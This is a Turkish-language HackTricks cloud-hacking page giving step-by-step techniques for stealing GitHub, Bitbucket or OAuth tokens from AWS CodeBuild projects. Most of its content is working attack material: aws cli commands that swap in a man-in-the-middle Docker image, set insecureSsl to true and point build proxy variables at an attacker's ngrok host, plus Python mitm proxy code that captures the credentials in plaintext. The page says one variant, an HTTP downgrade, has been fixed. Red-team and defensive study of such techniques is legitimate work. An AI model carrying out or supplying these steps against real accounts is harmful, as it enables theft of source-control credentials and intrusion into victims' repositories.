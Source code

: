 # AWS Codebuild - Token Leakage

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Github/Bitbucket Yapılandırılmış Token'larını Kurtarma

Öncelikle, sızdırabileceğiniz herhangi bir kaynak kimlik bilgisi yapılandırılıp yapılandırılmadığını kontrol edin:
```bash
aws codebuild list-source-credentials
```
### Docker Görüntüsü Üzerinden

Eğer örneğin Github'a kimlik doğrulamanın hesapta ayarlandığını bulursanız, Codebuild'i projeyi oluşturmak için **belirli bir docker görüntüsü** kullanmaya zorlayarak bu **erişimi** (**GH token veya OAuth token**) **sızdırabilirsiniz**.

Bu amaçla **yeni bir Codebuild projesi oluşturabilir** veya mevcut birinin **ortamını** değiştirerek **Docker görüntüsünü** ayarlayabilirsiniz.

Kullanabileceğiniz Docker görüntüsü [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Bu, **env değişkenlerini `https_proxy`**, **`http_proxy`** ve **`SSL_CERT_FILE`** ayarlayacak çok temel bir Docker görüntüsüdür. Bu, **`https_proxy`** ve **`http_proxy`**'da belirtilen ana bilgisayarın trafiğinin çoğunu kesmenizi ve **`SSL_CERT_FILE`**'da belirtilen SSL CERT'ine güvenmenizi sağlar.

1. **Kendi Docker MitM görüntünüzü oluşturun ve yükleyin**
* Proxy IP adresinizi ayarlamak ve SSL sertifikanızı belirlemek için repo talimatlarını izleyin ve **docker görüntüsünü oluşturun**.
* Metadata uç noktasına yapılan istekleri kesmemek için **`http_proxy`**'yu ayarlamayın.
* Proxy'yi ana bilgisayarınıza ayarlamak için **`ngrok`** kullanabilirsiniz, örneğin `ngrok tcp 4444`.
* Docker görüntünüzü oluşturduktan sonra, **bunu halka açık bir repoya yükleyin** (Dockerhub, ECR...).
2. **Ortamı ayarlayın**
* **Yeni bir Codebuild projesi oluşturun** veya mevcut birinin ortamını **değiştirin**.
* Projeyi **önceden oluşturulmuş Docker görüntüsünü** kullanacak şekilde ayarlayın.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Ana bilgisayarınızda MitM proxy'yi ayarlayın**

* **Github repo**'sunda belirtildiği gibi, şunu kullanabilirsiniz:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Kullanılan **mitmproxy sürümü 9.0.1** idi, sürüm 10 ile bunun çalışmayabileceği bildirildi.
{% endhint %}

4. **Yapıyı çalıştırın ve kimlik bilgilerini yakalayın**

*   Token'ı **Authorization** başlığında görebilirsiniz:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Bu, aws cli üzerinden de şöyle yapılabilir:

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Via insecureSSL

**Codebuild** projelerinin, yalnızca API üzerinden değiştirilebilen, webde gizli bir ayarı olan **`insecureSsl`** vardır.\
Bunu etkinleştirmek, Codebuild'in platform tarafından sunulan **sertifikayı kontrol etmeden** depoya bağlanmasına olanak tanır.

* Öncelikle mevcut yapılandırmayı şu şekilde listelemeniz gerekir:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* Ardından, toplanan bilgilerle proje ayarını **`insecureSsl`** değerini **`True`** olarak güncelleyebilirsiniz. Aşağıda bir projeyi güncellememe dair bir örnek var, sonunda **`insecureSsl=True`** olduğunu unutmayın (bu, toplanan yapılandırmadan değiştirmeniz gereken tek şeydir).
* Ayrıca, tcp ngrok'unuza işaret eden **http\_proxy** ve **https\_proxy** ortam değişkenlerini de ekleyin: 

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* Ardından, proxy değişkenleri tarafından belirtilen portta [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) adresinden temel örneği çalıştırın.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Son olarak, **Projeyi oluştur** butonuna tıklayın, **kimlik bilgileri** **düz metin olarak** (base64) mitm portuna **gönderilecektir**:

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### ~~HTTP protokolü aracılığıyla~~

{% hint style="success" %}
**Bu zafiyet, 2023 Şubat ayının 20'si haftasında AWS tarafından bir noktada düzeltildi (sanırım Cuma günü). Bu nedenle bir saldırgan bunu artık kötüye kullanamaz :)**
{% endhint %}

**Yükseltilmiş izinlere sahip bir saldırgan, yapılandırılmış Github/Bitbucket token'ını sızdırabilir** veya izinler OAuth aracılığıyla yapılandırılmışsa, **koda erişmek için kullanılan geçici OAuth token'ını** sızdırabilir.

* Bir saldırgan, kendi makinesine işaret eden **http\_proxy** ve **https\_proxy** ortam değişkenlerini CodeBuild projesine ekleyebilir (örneğin `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Ardından, github reposunun URL'sini HTTPS yerine HTTP kullanacak şekilde değiştirin, örneğin: `http://github.com/carlospolop-forks/TestActions`
* Daha sonra, proxy değişkenleri (http\_proxy ve https\_proxy) tarafından işaret edilen portta [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) temel örneğini çalıştırın.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Son olarak, **Projeyi oluştur** butonuna tıklayın, **kimlik bilgileri** **düz metin olarak** (base64) mitm portuna **gönderilecektir**:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Artık bir saldırgan, makinesinden token'ı kullanarak, sahip olduğu tüm ayrıcalıkları listeleyebilir ve CodeBuild hizmetini doğrudan kullanmaktan daha kolay bir şekilde (kötüye) kullanabilir.
{% endhint %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
